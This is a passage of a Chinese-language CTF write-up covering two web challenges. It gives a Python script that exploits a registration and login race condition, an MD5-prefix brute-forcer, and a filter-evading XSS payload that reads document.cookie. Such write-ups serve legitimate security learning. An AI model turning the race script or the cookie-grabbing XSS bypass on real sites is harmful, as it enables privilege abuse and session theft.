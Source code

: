 参考：

[https://github.com/sternze/CTF_writeups/blob/master/sCTF/2016_Q1/obfuscat/readme.md](https://github.com/sternze/CTF_writeups/blob/master/sCTF/2016_Q1/obfuscat/readme.md)

http://lorexxar.cn/2016/11/19/web2-giligili/



### 5.必须比香港记者还快

条件竞争 需要写python脚本
http://changelog.hctf.io/README.md能看到提示
扫目录得到readme.md，读一下知道这题是条件竞争漏洞，在权限降低之前登陆访问index就可以了。贴上脚本：

```python
import time
import requests
import threading
from random import randint
headers = {'Content-Type': 'application/x-www-form-urlencoded'}
for i in range(0xfffff):
time.sleep(0.1)
name = 'test123' + str(i)
data = {'username': name, 'password': name, 'gogogo':'\xE8\x8B\x9F\x21'}
def reg(name):
    r = requests.post( 'http://changelog.hctf.io/register.php', 
                       headers=headers, 
                       data=data)
def login(name):
    _h = dict(headers)
    r = requests.post( 'http://changelog.hctf.io/login.php', 
                       headers=_h, 
                       data=data)
    if  'You level is zero' not in r.content:
        print r.content
        exit()
threading.Thread(target=login, args=(name, )).start()
threading.Thread(target=reg,   args=(name, )).start()
```



### 6. guestbook

MD5:https://md5db.net/explore/634A

也可以本地爆破

```Python
#!/usr/bin/env python
# coding:utf-8
import hashlib
foo= 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
string=''
need="ed65"
for i1 ,ch1 in enumerate(foo):
	for i2 ,ch2 in enumerate(foo):
		for i3 ,ch3 in enumerate(foo):
			for i4 ,ch4 in enumerate(foo):
				temp=ch1+ch2+ch3+ch4
				hash_md5 =(hashlib.md5(temp)).hexdigest()[0:4]
				if(hash_md5==need):
					print temp
					break

				

#<scrscriptipt>alert(document.cookie)</scrscriptipt>
```